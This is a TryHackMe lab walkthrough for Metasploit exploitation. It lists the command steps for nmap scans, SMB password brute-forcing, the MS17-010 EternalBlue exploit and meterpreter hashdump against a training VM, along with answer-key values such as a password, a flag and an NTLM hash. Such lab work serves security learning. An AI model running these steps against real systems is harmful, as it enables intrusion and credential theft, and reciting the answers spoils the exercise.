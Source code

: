 # TryHackMe: Metasploit: Exploitation - Walkthrough

Room URL: https://tryhackme.com/room/metasploitexploitation




# Task 2: Scanning


**Questions:**


**1- How many ports are open on the target system?**

first start `msfconsole` command to run metasploit framework command-line interface

port scan the target system using `nmap -sV <target ip>` to attempts to determine the version of the service running on port 


![image](https://github.com/user-attachments/assets/28d0cf99-da9e-4092-9711-abe09ac4a60c)

Ans: ***5***

**2-Using the relevant scanner, what NetBIOS name can you see?**

you can search for NETBIOS module using ```search netbios```

then select the relevet module which is ```use auxiliary/scanner/netbios/nbname```

```show options``` then set the required paramters 

However, since we used the Nmap scanner to scan for open ports and determine the version running, we don't need to go through these steps. 

as you can see in the picture above in the version column for the netbios service 

Ans:  ***ACME IT SUPPORT***


**3-What is running on port 8000?**

if you want to use a module for scanning. use this module `use auxiliary/scanner/http/http_version` to scan for http version and set the required parameters.

in the picture above, you can see port 8000 open and the service running at is http with version  webfs/1.21 http 1.21

Ans: ***webfs/1.21***

**4- What is the “penny” user’s SMB password? Use the wordlist mentioned in the previous task.**

`search smb` to search for smb module 

`use  auxiliary/smb/smb_login` The smb_login module is used to bruteforce SMB remotely. SMB credentials are extra valuable because they are system credentials, and you can probably reuse some of them to log in to more machines. If you have a database plugin loaded, successful logins will be stored in it for future reference and usage.

then set the required parameters 

`set rhosts <target ip>`

`set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt`

`set SMBUser penny`

`run` 

![image](https://github.com/user-attachments/assets/caf8a9d3-2498-4a45-83ac-5d8af88f482e)
![image](https://github.com/user-attachments/assets/7d3c7f1e-2c68-47d2-b5fb-81892facd412)

Ans: ***leo1234***


# Task 4: Vulnerability Scanning

**Questions:**

**1- Who wrote the module that allows us to check SMTP servers for open relay?**

first search for smtp modules

`search smtp`

![image](https://github.com/user-attachments/assets/2badf6ee-34f8-4863-aefc-b8f1cdb62592)

`use 39` to select smtp_relay module

`info` to show information about this module
![image](https://github.com/user-attachments/assets/d99e8741-00b4-4055-ba37-080023d781e6)

Ans: ***Campbell Murray***


# Task 5: Exploitation

**Questions:**

**1- Exploit one of the critical vulnerabilities on the target VM**

lets look at the previous port scan 

![image](https://github.com/user-attachments/assets/28d0cf99-da9e-4092-9711-abe09ac4a60c)

There are many potential attack vectors. We have ftp running, OpenSSH, Netbios, as well as webfs.

Now we can use a vulnerability scanning module to find potential vulnerabilities. Let’s look at Netbios!

`nmap 10.10.121.21 -p 443 — script smb-os-discovery`

![image](https://www.jalblas.com/wp-content/uploads/2024/11/Running-the-smb-os-discovery-script.png.webp)

We can look for vulnerabilities with the following command:

`nmap 10.10.121.21 -p 139,445 — script vuln`

![image](https://www.jalblas.com/wp-content/uploads/2024/11/Running-the-nmap-vuln-script.png.webp)

We found a vulnerability! A critical remote code execution vulnerability exists in Microsoft SMBv1 (ms17–010). We can search for this exploit by running:

`search ms17–010`

![image](https://www.jalblas.com/wp-content/uploads/2024/11/Searching-for-the-ms17%E2%80%93010-exploit-modules.png.webp)

Let’s try the EnternalBlue exploit (use 2).

set the parameters `set set RHOSTS <ip>` then run the exploit `run`

![image](https://github.com/user-attachments/assets/a70b4ab6-939b-463d-8814-7af184eabd84)

Ans: ***No answer needed***

**2-What is the content of the flag.txt file?**

`search -f flag.txt` to search for the flag.txt file then print its content 
![image](https://github.com/user-attachments/assets/b1a453a6-0050-4a1d-ba50-ff7bcf96ac15)

Ans: ***THM-5455554845***

**3- What is the NTLM hash of the password of the user “pirate”?**

to find the command and run it in the meterpreter run `help` command and you will see `hashdump` command 
![image](https://github.com/user-attachments/assets/ac607f52-b9b5-4161-b076-a8785f4e216b)

![image](https://github.com/user-attachments/assets/6883d93f-e9d4-421e-a05e-a222c49c2a61)

The value we are interested in is the fourth column (8ce9a3ebd1647fcc5e04025019f4b875)

Ans: ***8ce9a3ebd1647fcc5e04025019f4b875***

# Task 6: Msfvenom




